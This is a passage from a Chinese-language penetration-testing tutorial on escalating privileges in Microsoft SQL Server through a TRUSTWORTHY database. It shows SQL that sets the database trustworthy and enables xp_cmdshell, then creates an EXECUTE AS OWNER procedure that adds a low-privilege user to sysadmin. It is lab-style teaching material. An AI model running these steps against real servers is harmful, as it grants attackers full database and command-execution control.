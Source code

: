Myappuser01确实为db\_owner的权限

![6.png](/Users/aresx/Documents/VulWiki/.resource/Mssql受信用数据库提权/media/rId32.png)

查看myappusr01的属性也可以看到

#### 5.将\"MyTestdb01\"数据库设置为受信任。

    ALTER DATABASE MyTestdb01 SET TRUSTWORTHY ON

![7.png](/Users/aresx/Documents/VulWiki/.resource/Mssql受信用数据库提权/media/rId34.png)

#### 6.下面的查询将返回SQL Server实例中的所有数据库，并且应将\"MyTestdb01 \"和\"MSDB\"数据库标记为可信任。

    SELECT a.name,b.is_trustworthy_on
    FROM master..sysdatabases as a
    INNER JOIN sys.databases as b
    ON a.name=b.name;

![8.png](/Users/aresx/Documents/VulWiki/.resource/Mssql受信用数据库提权/media/rId36.png)

\"1\"就是受信用

#### 7.开启xp\_cmdshell

    EXEC sp_configure 'show advanced options',1
    RECONFIGURE
    GO

    EXEC sp_configure 'xp_cmdshell',1
    RECONFIGURE
    GO

![9.png](/Users/aresx/Documents/VulWiki/.resource/Mssql受信用数据库提权/media/rId38.png)

0x02 提权
---------

1.使用MyAppUser01用户登录，新建查询，看看我们的权限，这里不要用之前的查询，因为那是sa的查询看看我们的是否为sysadmin

![10.png](/Users/aresx/Documents/VulWiki/.resource/Mssql受信用数据库提权/media/rId40.png)

2.新建一个sp\_elevate\_me查询

    USE MyTestdb01
    GO
    CREATE PROCEDURE sp_elevate_me
    WITH EXECUTE AS OWNER
    AS
    EXEC sp_addsrvrolemember 'MyAppUser01','sysadmin'
    GO

![11.png](/Users/aresx/Documents/VulWiki/.resource/Mssql受信用数据库提权/media/rId41.png)
